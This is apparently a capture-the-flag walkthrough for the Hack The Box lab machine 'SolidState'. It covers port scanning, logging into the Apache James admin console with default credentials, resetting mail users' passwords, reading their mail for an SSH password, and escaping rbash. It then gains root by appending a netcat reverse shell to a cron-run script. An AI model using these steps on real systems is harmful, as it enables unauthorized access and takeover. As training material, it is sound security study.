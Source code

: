 # SolidState
**Machine ip:** 10.10.10.51

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.51 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.51`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cffe61ef-f4fa-4ed9-a7b6-151d7fc033f5)

+ The result shows that 5 ports are open:
```
Port 22: OpenSSH 7.4p1
Port 25: JAMES smtpd 2.3.2
Port 80: httpd 2.4.25
Port 110: JAMES pop3d 2.3.2
Port 119: JAMES nntpd
Port 4555: JAMES Remote Administration Tool 2.3.2
```

+ Navigate to `http://10.10.10.51/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8873f868-18e3-4fe4-9b10-4cc631320a78)

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.51/ -k -n -x html,php,txt -r -t 50
```

+ There is nothing here.

+ James stands for Java Apache Mail Enterprise Server. James Mail Server listens on four ports which are SMTP on TCP 25, POP3 on TCP 110, NNTP on TCP 119 and TCP 4555.
+ Firstly, check TCP port 4555 because it is the James administration port.
+ `searchsploit james 2.3.2`
+ [Apache James Server 2.3.2 - Remote Command Execution](https://www.exploit-db.com/exploits/35513)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7cb78dc-cf4a-4d77-94a9-ee7f79588aa9)

+ `searchsploit -m 35513`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c43603ab-f981-4e94-8d30-edf92e1effb1)

+ Connect to port 4555 with `root`:`root` using nc: `nc 10.10.10.51 4555`
+ List commands: `HELP`
+ To list users: `listusers`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/86624a9b-8b8d-477b-a421-5cabeabe861a)

+ Discovered 5 accounts:
```
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

+ Reset their passwords: `setpassword [username] [password] `

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/faf2449a-aab0-468f-9120-b76f41a0d3f9)

+ Connect to POP3 on TCP 110 to check mails using **telnet**.
```
telnet 10.10.10.51 110
USER james
PASS 123
LIST
```

+ There is no **james**' mail.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ee62ffa-8051-45c4-86d4-bbfc2ee80d82)

+ `Ctrl + D` and `quit` to quit telnet and open new telnet.
+ There is no mail for **thomas**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/28dba85b-5eb7-46f7-9b3e-68b223e68704)

+ There is a mail for **john**. Use to read: `retr 1`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/92417947-5654-4752-983c-be79a936f3af)

+ Check **mindy**'s mail.
+ There are 2 mails.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ba2891c-17c9-408d-a446-a3298b47a897)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/156327e7-c701-47f5-b872-c11f1ea4f5d0)

+ On the second mail, discovered mindy's **ssh** credentials:
```
username: mindy
pass: P@55W0rd1!2@
```

+ **Lastly**, check **mailadmin**.
+ There is no mail.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/73ddfa83-30ee-48e4-8936-8a8df777c9e1)

+ Try ssl login with `mindy`:`P@55W0rd1!2@` : `ssh mindy@10.10.10.51 `
+ Get user.txt:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2afc76f7-1f35-4a2f-b398-5c0b2cea2755)

+ As prveiously said on the second mail, access is restricted:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c8ded426-603e-4d03-860d-b2f9606647d5)

+ mindy’s shell is rbash.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dd5f965b-922d-4a3b-90eb-b4dcdf6c6319)

+ To escape: `sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 -t bash`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/507882d1-c29e-471e-b6fe-9320d168cd60)

## Privilege Escalation
+ Transfer pspy to the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc163b76-6979-4950-a22d-234e76fbe523)

+ Check processess, and see `python /opt/tmp.py` is being run every three minutes.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b73f6b8a-3828-497b-9e9c-c6a78793aaad)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dbbe8171-9b71-4205-89f5-7fccd2d3482c)

+ Cat the script.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5b3389db-2be5-499a-afba-1cdade55565b)

+ Add a reverse shell to the file:
```
echo "os.system('/bin/nc -e /bin/bash 10.10.14.10 4444')" >> tmp.py
```

+ Start listener: `nc -lnvp 4444`

+ Get the root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bf72433f-2a2e-4170-a00d-6828eb6c7ba3)


# References & Alternatives:
+ https://vvmlist.github.io/#solidstate
+ https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
